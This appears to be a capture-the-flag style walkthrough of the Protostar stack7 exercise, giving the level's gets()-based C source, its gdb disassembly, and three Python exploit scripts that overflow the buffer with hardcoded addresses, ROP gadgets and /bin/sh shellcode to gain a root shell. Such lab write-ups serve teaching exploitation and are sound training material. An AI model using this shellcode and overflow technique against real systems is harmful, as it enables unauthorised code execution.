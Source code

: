 ```yaml
---
title: "Protostar stack7 walkthrough"
date: 2020-05-22
tags: [ROP, return oriented programming, buffer overflow, protostar, stack7, walkthrough]
header:
  image: "/images/protostar/protostar.png"
---
```


## Protostar exercises - [stack7](https://exploit-exercises.lains.space/protostar/stack7/)

#### About
Stack6 introduces return to .text to gain code execution.

The metasploit tool “msfelfscan” can make searching for suitable instructions very easy, otherwise looking through objdump output will suffice.

This level is at /opt/protostar/bin/stack7

#### Source code
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

char *getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xb0000000) == 0xb0000000) {
      printf("bzzzt (%p)\n", ret);
      _exit(1);
  }

  printf("got path %s\n", buffer);
  return strdup(buffer);
}

int main(int argc, char **argv)
{
  getpath();



}
```

#### Procedure:

The aim is to get a root shell. Similar to the previous problem, we need to overwrite the return pointer. But this time, the return pointer should not be in 0xbf000000 address space (basically stack). As suggested, we can set the return pointer to /bin/sh in libc. We can also set it to itsef so that it fails the 'if' condition and doesn't exit. Then we can use shell code

###### Vulnerability:

`gets()` is vulnerable function.


###### Disassembly:

```
gdb ./stack7
set disassembly-flavor intel
disassemble getpath
disassemble main
```

```
(gdb) disassemble getpath
Dump of assembler code for function getpath:
0x080484c4 <getpath+0>: push   ebp
0x080484c5 <getpath+1>: mov    ebp,esp
0x080484c7 <getpath+3>: sub    esp,0x68
0x080484ca <getpath+6>: mov    eax,0x8048620
0x080484cf <getpath+11>:        mov    DWORD PTR [esp],eax
0x080484d2 <getpath+14>:        call   0x80483e4 <printf@plt>
0x080484d7 <getpath+19>:        mov    eax,ds:0x8049780
0x080484dc <getpath+24>:        mov    DWORD PTR [esp],eax
0x080484df <getpath+27>:        call   0x80483d4 <fflush@plt>
0x080484e4 <getpath+32>:        lea    eax,[ebp-0x4c]
0x080484e7 <getpath+35>:        mov    DWORD PTR [esp],eax
0x080484ea <getpath+38>:        call   0x80483a4 <gets@plt>
0x080484ef <getpath+43>:        mov    eax,DWORD PTR [ebp+0x4]
0x080484f2 <getpath+46>:        mov    DWORD PTR [ebp-0xc],eax
0x080484f5 <getpath+49>:        mov    eax,DWORD PTR [ebp-0xc]
0x080484f8 <getpath+52>:        and    eax,0xb0000000
0x080484fd <getpath+57>:        cmp    eax,0xb0000000
0x08048502 <getpath+62>:        jne    0x8048524 <getpath+96>
0x08048504 <getpath+64>:        mov    eax,0x8048634
0x08048509 <getpath+69>:        mov    edx,DWORD PTR [ebp-0xc]
0x0804850c <getpath+72>:        mov    DWORD PTR [esp+0x4],edx
0x08048510 <getpath+76>:        mov    DWORD PTR [esp],eax
0x08048513 <getpath+79>:        call   0x80483e4 <printf@plt>
0x08048518 <getpath+84>:        mov    DWORD PTR [esp],0x1
0x0804851f <getpath+91>:        call   0x80483c4 <_exit@plt>
0x08048524 <getpath+96>:        mov    eax,0x8048640
0x08048529 <getpath+101>:       lea    edx,[ebp-0x4c]
0x0804852c <getpath+104>:       mov    DWORD PTR [esp+0x4],edx
0x08048530 <getpath+108>:       mov    DWORD PTR [esp],eax
0x08048533 <getpath+111>:       call   0x80483e4 <printf@plt>
0x08048538 <getpath+116>:       lea    eax,[ebp-0x4c]
0x0804853b <getpath+119>:       mov    DWORD PTR [esp],eax
0x0804853e <getpath+122>:       call   0x80483f4 <strdup@plt>
0x08048543 <getpath+127>:       leave
0x08048544 <getpath+128>:       ret
End of assembler dump.
(gdb) disassemble main
Dump of assembler code for function main:
0x08048545 <main+0>:    push   ebp
0x08048546 <main+1>:    mov    ebp,esp
0x08048548 <main+3>:    and    esp,0xfffffff0
0x0804854b <main+6>:    call   0x80484c4 <getpath>
0x08048550 <main+11>:   mov    esp,ebp
0x08048552 <main+13>:   pop    ebp
0x08048553 <main+14>:   ret
End of assembler dump.
(gdb) break *0x08048544
Breakpoint 1 at 0x8048544: file stack7/stack7.c, line 24.
```

First, lets get the esp value when ret is executed. We can find out that its 0xbffff7bc.
Like we did in stack6, we can use a similar exploit to get the shell

```python
import struct

pad = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBB"
eip = struct.pack("I", 0x08048544)
eip += struct.pack("I", 0xbffff7bc+20)
nopsled = "\x90" * 50
interrupt = "\xCC"
shellcode = "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"

print pad + eip + nopsled + shellcode
```

![root-regular]({{site.url}}{{site.baseurl}}/images/protostar/stack7/root-regular.png)

But we cannot use this method everytime. We might run into some bad characters (like \x00 or \x0a or \x0d) or ASLR might be enabled. So, we cannot use the hardcoded addresses all the time. We can use ret2libc like we did in stack6. We can also search for ROP gadgets and use them.

As suggested, we can use `msfelfscan` to find these.

I looked for any `jmp esp` commands using `/usr/share/framework2/msfelfscan -j esp -f stack7` but couldn't find anything. But there are three `pop pop ret` commands

```
/usr/share/framework2/msfelfscan -s -f stack7
0x08048492   ebx ebp ret
0x080485f7   ebx ebp ret
0x080485c7   edi ebp ret
```

We can also use [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) to find all unique ROPs using `ROPgadget --binary stack7`

Lets use the address 0x08048492. Once we write the ret pointer (0xbffff7bc) to this address, We need to have some values on stack for each pop and a return address for the return  pointer. Lets add the in the sploit script.

```python
import struct

pad = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBB"
eip = struct.pack("I", 0x08048492)
pop1 = "PPPP"
pop2 = "QQQQ"
ret = struct.pack("I", 0xbffff7bc+20)
nopsled = "\x90" * 50
interrupt = "\xCC"
shellcode = "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"

print pad + eip + pop1 + pop2 + ret +nopsled + shellcode
```

This will give us the root shell

![root-rop]({{site.url}}{{site.baseurl}}/images/protostar/stack7/root-rop.png)

Lets use another ROP chain to get shell.

From `ROPgadget` there are many gadgets. 

![ropgadgets]({{site.url}}{{site.baseurl}}/images/protostar/stack7/ropgadgets.png)

Lets try to use `call eax`
```
0x080484bf : call eax
```

Lets use this address for eip

```
import struct

pad = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBB"
eip = struct.pack("I", 0x080484bf)
esp = struct.pack("I", 0xbffff7bc+20)
nopsled = "\x90" * 50
interrupt = "\xCC"
shellcode = "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"

print pad + eip + esp +nopsled + shellcode
```

![root-esp]({{site.url}}{{site.baseurl}}/images/protostar/stack7/root-esp.png)

We can see that we'll get shell again.

